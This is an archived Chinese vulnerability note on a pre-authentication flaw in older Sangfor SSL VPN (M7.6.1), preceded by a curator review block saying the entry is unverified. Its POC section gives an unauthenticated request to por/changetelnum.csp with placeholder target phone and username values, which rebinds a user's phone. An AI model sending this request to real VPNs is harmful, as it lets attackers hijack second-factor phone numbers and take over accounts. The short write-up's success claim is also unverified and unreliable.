


# 深信服 SSL VPN - Pre Auth 修改绑定手机

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Sangfor SSL VPN
- 本文讨论：por/changetelnum.csp未授权手机号修改
- 版本、权限与配置前提：仅老版M7.6.1，新版作者未绕过；已知用户名
- 资料类型：VPN认证前改绑定手机摘要；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 简介/影响章空；只有URL和表单未说明HTTP方法或成功响应
- 关键原理截图依赖，原文只博客首页

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 版本、用户存在性、手机绑定效果与修复待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

老版本(M7.6.1)代码放上，看不懂的直接看 POC
吧；新版本的没绕成功还在审，所以不确定是不是这个

### POC

    https://www.0-sec.org/por/changetelnum.csp?apiversion=1

    newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

参考链接
--------

> https://blog.sari3l.com/
